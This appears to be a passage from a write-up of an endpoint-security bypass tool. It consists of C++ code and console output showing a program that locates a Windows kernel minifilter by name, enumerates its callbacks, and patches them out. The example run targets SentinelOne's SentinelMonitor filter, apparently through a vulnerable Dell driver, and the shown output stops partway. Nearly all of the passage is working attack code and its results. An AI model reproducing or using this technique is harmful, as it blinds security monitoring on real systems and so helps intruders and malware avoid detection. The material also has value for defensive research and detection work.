 ```
	// get a pointer to our target filter we're patching
	PVOID lpFilter = oFlt.GetFilterByName(wstrFilterName);
	if (!lpFilter) {
		puts("Target filter not found, exiting...");
		exit(-1);
	}

	// get the frame for our target filter
	PVOID lpFrame = oFlt.GetFrameForFilter(lpFilter);
	if (!lpFrame) {
		puts("Failed to get frame for filter!");
		exit(-1);
	}

	printf("Frame for filter is at %p\n", lpFrame);

	// get the list of FLT_OPERATION_REGISTRATION callbacks
	auto vecOperations = oFlt.GetOperationsForFilter(lpFilter);
	for (auto op : vecOperations) {
		const char* strOperation = g_IrpMjMap.count((BYTE)op.MajorFunction) ?  g_IrpMjMap[(BYTE)op.MajorFunction] : "IRP_MJ_UNDEFINED";
		printf("MajorFn: %s\nPre: %p\nPost %p\n", strOperation, op.PreOperation, op.PostOperation);
	}

	// get the volumes attached to the frame of our target filter
	auto frameVolumes = oFlt.EnumFrameVolumes(lpFrame);
	const wchar_t* strHardDiskPrefix = LR"(\Device\HarddiskVolume)";

	// remove the callbacks
	BOOL bRes = oFlt.RemovePrePostCallbacksForVolumesAndCallbacks(vecOperations, frameVolumes, &gl_hf);
	if (!bRes) {
		puts("Error patching pre and post callbacks!");
		exit(-1);
	}

	return 0;
}
```

Example output targeting SentinelOne's SentinelMonitor filter:

```
C:\Users\User>.\Desktop\dell_fsutil.exe SentinelMonitor
Enumerating for filter SentinelMonitor
Connected to device
Ntos base fffff80517000000
Found return one gadget at fffff8051720f084
Found return zero gadget at fffff8051720f08b
Flt globals is at FFFFF8051924B6C0
1 frames available
Frame list is at FFFFE287B70BD6A8
List of filters at - FFFFF8051924B780
===== FRAME 0 =====
Reading count of filters from ffffe287b70bd760
Found 10 filters for frame

Filter 0 - bindflt
Filter 1 - SentinelMonitor
Found target filter at ffffe287be862b20
Frame for filter is at FFFFE287B70BD6A0
Operations at ffffe287be862dd8
MajorFn: IRP_MJ_CREATE
Pre: FFFFF80535FBF9B0
```